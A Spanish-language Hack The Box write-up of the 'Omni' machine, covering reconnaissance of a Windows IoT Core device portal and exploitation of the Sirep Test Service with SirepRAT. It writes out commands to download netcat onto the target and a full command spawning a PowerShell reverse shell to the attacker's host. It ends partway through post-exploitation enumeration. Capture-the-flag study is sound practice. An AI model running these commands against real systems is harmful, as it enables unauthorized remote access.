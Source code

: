 ```yaml
---
layout: post
title: Write-Up Máquina Omni HTB
date: 2021-01-12 23:28 +0800
last_modified_at: 2021-01-12 23:28 +0800
tags: [htb, writeup, python, IoT, windows, core, powershell]
toc:  false
---
```


![imagen](/assets/imagenes/2021-01-12-omni-HTB/omni-card.png)

---

La máquina Omni es una máquina en la cual esta corriendo un windows IoT core con el portal de gestion en modo Dev. Para la explotacion nos vamos a aprovechar del  Sirep Test Service que es un componente del propio IoT core para realizar comprobaciones en el hardware.

---
## Escaneo

----

![Escaneo](/assets/imagenes/2021-01-12-omni-HTB/escaneo-omni.png)

---

Una vez realizado el escaneo, podemos ver varios puertos abiertos, entre ellos el 8080. En este caso es el que nos interesa, ya que el resto de puertos son componentes internos de microsoft que no deberian ser vulnerables.

---

## Puerto 8080

---

Vamos a acceder al puerto 8080 para ver que nos muestra, aunque ya nos podemos hacer una idea de lo que es viendo el escaneo. 
si nos fijamos bien, vemos que tenemos http-auth, lo que quiere decir que seguramente sea algun panel de gestión protegido por usuario y contraseña.
Un poco más abajo, nos saca un mensaje: "Basic realm=Windows Device Portal"
Esto nos puede indicar el producto concreto que este corriendo en ese puerto.

---

![login](/assets/imagenes/2021-01-12-omni-HTB/panel-login-8080-omni.png)

---

Como podemos ver, efectivamente tenemos un login del cual no tenemos en un principio credenciales.
Vamos a intentar buscar en internet sobre este producto en busca de posibles credenciales por defecto.

---

![creds](/assets/imagenes/2021-01-12-omni-HTB/creds-default-device-portal.png)

---

El primer resultado ya nos muestra que este servicio tiene credenciales por defecto.
Vamos a probarlas.

---

![login-creds](/assets/imagenes/2021-01-12-omni-HTB/test-creds.png)

---

Si le damos ok vemos que volvemos al login por lo que esas credenciales no valen en esta máquina.
Ya que tenemos el nombre del producto que esta corriendo, vamos a buscar posibles exploits.

---
Si buscamos en google 'windows device portal exploit' nos aparecera el siguiente artículo: 
![articulo](/assets/imagenes/2021-01-12-omni-HTB/articulo-exploit-iot-core.png)

---

Este artículo hace referencia a una herramienta de explotacion desarrollada en python en el año 2019 llamada [SirepRAT](https://github.com/SafeBreach-Labs/SirepRAT).
Esta tool se aprovecha del Sirep Test Service que es una funcionalidad nativa de los sistemas windows IoT core que se usa de manera legitima para realizar pruebas de drivers y hardware en el propio dispositivo IoT.

---

## Explotacón

---

Una vez clonado el repo de la herramienta accedemos a la carpeta y vamos a instalar los paquetes que necesite la herramienta.

---

![sirep-install](/assets/imagenes/2021-01-12-omni-HTB/requirements-sirepRAT.png)

---

Una vez instalados los requirements vamos a proceder a explotar el servicio.
Para comprobar que funciona, vamos a ejecutar *python2.7 SirepRAT.py 10.10.10.204 GetSystemInformationFromDevice*

---

![test-sirep](/assets/imagenes/2021-01-12-omni-HTB/sirep-test.png)

---

Como podemos ver nos devuelve output. eso quere decir que podemos interactuar con el servicio sin estar autenticados.

Una vez hecho este test, vamos a intentar obtener una reverse shell.
Para eso vamos a subir el binario de netcat a la máquina y lo llamaremos para obtener una shell reversa en powershell.
Primero vamos a crear una carpeta temp en la raiz.

---
![directorio-C:\temp](/assets/imagenes/2021-01-12-omni-HTB/mkdir-c-temp.png)

---
Una vez creado el directorio vamos a subir nuestro binario de nc.
Para subir el fichero vamos a levantar con python2.7 un servidor web que no nos sirve al fichero.

---
![web-nc](/assets/imagenes/2021-01-12-omni-HTB/server-web-nc.png)

---
Una vez levantado vamos donde teniamos el sirepRAT y vamos a ejecutar un comando para descargar nc64.exe a la carpeta C:\temp previamente creada.

---
![download-nc](/assets/imagenes/2021-01-12-omni-HTB/nc64-download.png)

---
Una vez descargado el binario vamos a llamarlo para que no devuelva una reverse shell de powershell en el puerto 1234.
Vamos a levantar lo primero el listener con el comando *nc -lvp 1234* y con el comando *python2.7 SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args "/c C:\temp\nc64.exe -e powershell.exe 10.10.14.16 1234"* llamaremos a netcat y no mandara al listener la reverse shell.

---
![call-nc](/assets/imagenes/2021-01-12-omni-HTB/call-nc.png)
![nc-rev-shell](/assets/imagenes/2021-01-12-omni-HTB/shell-nc.png)

---
**!!Ya tenemos shell¡¡** Vamos a enumerar y a buscar la flag del user.
Si nos vamos a la carpeta Users de windows vemos que solo hay un usuario que es public y en su carpeta no hay ni rastro de la flag.
Vamos a enumerar. Si nos vamos a la raiz vemos que las carpetas que hay no son las que encontrariamos en un sistema windows de escritorio.

---

![ls-C](/assets/imagenes/2021-01-12-omni-HTB/ls-C.png)

---
A mi me ha llamado la atención la carpeta Data. Si accedemos a ella vemos que tenemos una carpeta users.

---

![dir-data](/assets/imagenes/2021-01-12-omni-HTB/dir-data.png)

---

En user ya tenemos carpetas que tienen sentido que sean usuarios reales del sistema.

---

![ls-data-users](/assets/imagenes/2021-01-12-omni-HTB/C-Data-Users-dir.png)

---






